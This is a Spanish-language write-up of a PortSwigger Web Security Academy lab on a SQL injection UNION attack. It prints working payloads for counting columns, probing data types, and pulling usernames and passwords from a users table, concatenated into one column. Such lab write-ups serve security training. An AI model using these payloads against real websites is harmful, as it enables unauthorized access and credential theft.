


+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 6"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, retrieving multiple values in a single column"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos de una tabla, las columnas son `username` y `password` de la tabla `users`. Es igual al anterior lab solamente que esta vez se tiene que extraer los datos en una sola columna haciendo uso de una consulta sql. La forma que tiene SQL para poder extraer datos de esa manera es de la siguiente:

   DBMS | Concatenacion
--------|------
  Oracle | 'foo'\|\|'bar'
  Microsoft | 'foo'+'bar'
  Postgresql | 'foo'\|\|'bar'
  MySQL | 'foo' 'bar'

## Reconocimiento

Ahora toca usar el metodo union para poder recuperar esos datos y tratar de inyectar ese comando en la consulta primaria para recuperar los usuarios y contrasenas de la tala de usuarios.

### Payloads

Estos pasos se repetiran los mismos del laboratorio anterior Lab5.

#### Recuperar columnas

Recuperamos las columnas inyectando la siguiente consulta:

```
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 1--
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 2--
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 3--
```
Al ver que en 2 muestra bien y en 3 da un error interno, sabemos que cuenta con 2 columnas.

#### Recuperar tipo de datos

Ahora queremos saber que tipos de datos acceptan, inyectando algunas string en los dos vemos que no hay problema al hacerlo.

```sql
Pets' union select 'test','test'--
Pets' union select 'test',null--
Pets' union select null,'test'--
```
Ahora sabemos que solo podemos inyectar texto en el una columna que seria la segunda.

#### Recuperar datos de usuarios

Ahra ya podemos tomar los datos de la tabla de usuarios que se nos pide, para eso inyectaremos las siguientes consultas:

```sql
Pets' union select null,username from users--
Pets' union select null,password from users--
```


Pero haciendo dos consultas es muy complicado recuperar todos estos datos y luego unirlos y saber que valor es de cada uno. Para eso podemos usar la concatenacion que es propia del sistema, solo es de saber que sistema se esta usando en el backend realizando pruebas, probaremos con todos y ver si nos arroja un resultado. La consultaria quedaria asi:

```sql
Pets' union select null,username password from users--
Pets' union select null,username||password from users--
Pets' union select null,username+password from users--
```
Ahora con alguno de los payloads ingresados pudimos recuperar los datos en una misma columna como se puede ver y ya contamos con el usuario y las credenciales, ya solo queda ingresar al sistema y resuelto.



Algo para finalizar que se podria hacer es agregar un guion para saber cuando termina una columna de la otra, esto se arregla agregando cualquier caracter en el medio, por ejemplo un `-`:

```sql
Pets' union select null,username||'-'||password from users--
```

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)